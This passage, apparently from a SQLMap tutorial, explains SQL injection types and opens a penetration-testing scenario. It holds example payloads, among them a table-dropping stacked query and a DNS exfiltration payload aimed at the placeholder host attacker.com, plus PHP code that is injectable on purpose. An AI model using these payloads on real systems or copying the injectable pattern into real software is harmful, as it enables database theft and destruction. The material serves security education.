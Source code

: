 * U: Union query-based (i.e., UNION ALL SELECT 1,@@version,3)
   * With the usage of UNION, it is generally possible to extend the original (vulnerable) query with the injected statements' results. This way, if the original query results are rendered as part of the response, the attacker can get additional results from the injected statements within the page response itself. This type of SQL injection is considered the fastest, as, in the ideal scenario, the attacker would be able to pull the content of the whole database table of interest with a single request.

* S: Stacked queries (i.e., ; DROP TABLE users)
   * Stacking SQL queries, also known as the "piggy-backing," is the form of injecting additional SQL statements after the vulnerable one. In case that there is a requirement for running non-query statements (e.g. INSERT, UPDATE or DELETE), stacking must be supported by the vulnerable platform (e.g., Microsoft SQL Server and PostgreSQL support it by default). SQLMap can use such vulnerabilities to run non-query statements executed in advanced features (e.g., execution of OS commands) and data retrieval similarly to time-based blind SQLi types.

* T: Time-based blind (i.e., AND 1=IF(2>1,SLEEP(5),0))
   * The principle of Time-based blind SQL Injection is similar to the Boolean-based blind SQL Injection, but here the response time is used as the source for the differentiation between TRUE or FALSE.
      * TRUE response is generally characterized by the noticeable difference in the response time compared to the regular server response.
      * FALSE response should result in a response time indistinguishable from regular response times.
    
     Time-based blind SQL Injection is considerably slower than the boolean-based blind SQLi, since queries resulting in TRUE would delay the server response. This SQLi type is used in cases where Boolean-based blind SQL Injection is not applicable. For example, in case the vulnerable SQL statement is a non-query (e.g. INSERT, UPDATE or DELETE), executed as part of the auxiliary functionality without any effect to the page rendering process, time-based SQLi is used out of the necessity, as Boolean-based blind SQL Injection would not really work in this case.

* Q: Inline queries (i.e., SELECT (SELECT @@version) from)*
   * This type of injection embedded a query within the original query. Such SQL injection is uncommon, as it needs the vulnerable web app to be written in a certain way. Still, SQLMap supports this kind of SQLi as well.

* Out-of-band SQL Injection (i.e., LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt')))
   * This is considered one of the most advanced types of SQLi, used in cases where all other types are either unsupported by the vulnerable web application or are too slow (e.g., time-based blind SQLi). SQLMap supports out-of-band SQLi through "DNS exfiltration," where requested queries are retrieved through DNS traffic.
   
     By running the SQLMap on the DNS server for the domain under control (e.g. .attacker.com), SQLMap can perform the attack by forcing the server to request non-existent subdomains (e.g. foo.attacker.com), where foo would be the SQL response we want to receive. SQLMap can then collect these erroring DNS requests and collect the foo part, to form the entire SQL response.

## Basic scenario
In a simple scenario, a penetration tester accesses the web page that accepts user input via a GET parameter (e.g., id). They then want to test if the web page is affected by the SQL injection vulnerability. If so, they would want to exploit it, retrieve as much information as possible from the back-end database, or even try to access the underlying file system and execute OS commands. An example SQLi vulnerable PHP code for this scenario would look as follows:
```php
$link = mysqli_connect($host, $username, $password, $database, 3306);
$sql = "SELECT * FROM users WHERE id = " . $_GET["id"] . " LIMIT 0, 1";
$result = mysqli_query($link, $query);
if (!$result)
    die("<b>SQL error:</b> ". mysqli_error($link) . "<br>\n");
```
As error reporting is enabled for the vulnerable SQL query, there will be a database error returned as part of the web-server response in case of any SQL query execution problems. Such cases ease the process of SQLi detection, especially in case of manual parameter value tampering, as the resulting errors are easily recognized (link example: `http://www.example.com/vuln.php?id=1`):
